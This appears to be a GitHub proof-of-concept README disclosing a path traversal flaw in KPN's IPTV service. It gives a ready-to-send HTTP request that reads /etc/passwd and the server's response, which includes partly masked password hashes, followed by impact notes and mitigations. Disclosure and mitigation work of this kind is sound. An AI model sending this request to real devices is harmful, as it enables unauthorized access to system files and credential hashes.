 # KPN-FilePathTraversal-POC-2023

# KPN ITV File Path Traversal Vulnerability

This repository explains a **file path traversal vulnerability** in the KPN IPTV service, allowing unauthorized access to sensitive system files, such as `/etc/passwd`.

---

## Vulnerability Overview

A **path traversal** (or directory traversal) attack occurs when an attacker manipulates the URL path to access directories and files outside the intended web directory. By using sequences like `../../`, an attacker can navigate up the directory structure and potentially access sensitive files.

---

## Example Attack Flow

### URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081

This is the base URL of the KPN IPTV service.
Malicious Request:

http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

In this request, the attacker exploits path traversal to reach the /etc/passwd file. This is done by adding multiple instances of ../, which moves up the directory structure.
Burp Suite Response

The server responds with a 200 OK status and the contents of the /etc/passwd file, including sensitive information. The hashes in the response below have been blurred for privacy:

plaintext

HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh

Explanation of /etc/passwd

The /etc/passwd file stores essential user account information for a Unix-based system. It typically includes the following information:

    Username
    Password hash (if present)
    User ID (UID)
    Group ID (GID)
    Home directory
    Shell

While modern systems store password hashes in the /etc/shadow file, /etc/passwd can still leak important information, especially for attackers targeting system accounts.
Impact

    Information Disclosure: Attackers can access sensitive files like /etc/passwd, revealing system user information.
    Potential Exploitation: With access to password hashes, attackers can attempt password cracking or gain unauthorized system access.

Mitigation

    Input Validation: Ensure all user inputs are validated and sanitized to prevent malicious sequences like ../.
    Restrict Directory Access: Configure the web server to limit access to sensitive directories.
    Use Web Application Firewalls (WAFs): A WAF can help detect and block suspicious URL patterns associated with path traversal attacks.

Conclusion

Path traversal vulnerabilities can lead to severe data exposure and compromise system integrity. This example from the KPN IPTV service demonstrates how improper input validation can open the door to sensitive information leakage. Always implement strong security measures to mitigate such risks.
